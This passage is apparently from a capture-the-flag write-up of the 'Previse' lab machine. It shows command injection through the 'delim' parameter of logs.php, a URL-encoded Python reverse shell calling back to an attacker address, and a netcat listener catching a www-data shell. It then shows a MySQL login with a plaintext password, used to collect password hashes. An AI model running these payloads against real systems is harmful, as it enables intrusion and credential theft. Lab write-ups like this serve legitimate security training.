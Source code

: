   delim=comma

If there's no sanitation, which it doesn't seem to be, we should be able to continue with more python code after 'comma'.
Trying with a python reverse shell (urlencoded):

REVERSE SHELL REQUEST:
  POST /logs.php HTTP/1.1
  Host: previse.htb
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 690
  Origin: http://previse.htb
  Connection: close
  Referer: http://previse.htb/file_logs.php
  Cookie: PHPSESSID=9c88qtp87je54hveglh4oult52
  Upgrade-Insecure-Requests: 1

  delim=comma;%70%79%74%68%6f%6e%20%2d%63%20%27%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%30%2e%31%30%2e%31%34%2e%34%22%2c%34%34%38%38%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%70%3d%73%75%62%70%72%6f%63%65%73%73%2e%63%61%6c%6c%28%5b%22%2f%62%69%6e%2f%73%68%22%2c%22%2d%69%22%5d%29%3b%27

[root:/git/htb/previse]# nc -lvnp 4488                                                                                            (master✱)
  listening on [any] 4488 ...
  connect to [10.10.14.4] from (UNKNOWN) [10.10.11.104] 33280
  /bin/sh: 0: can't access tty; job control turned off
  $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)


4. We already have the MYSQL creds, download newguy and m4lwhere's password hashes.

  bash-4.4$ mysql -u root -p
    Enter password: mySQL_p@ssw0rd!:)

    mysql> show databases;
    show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | mysql              |
    | performance_schema |
    | previse            |
    | sys                |
    +--------------------+
    5 rows in set (0.00 sec)
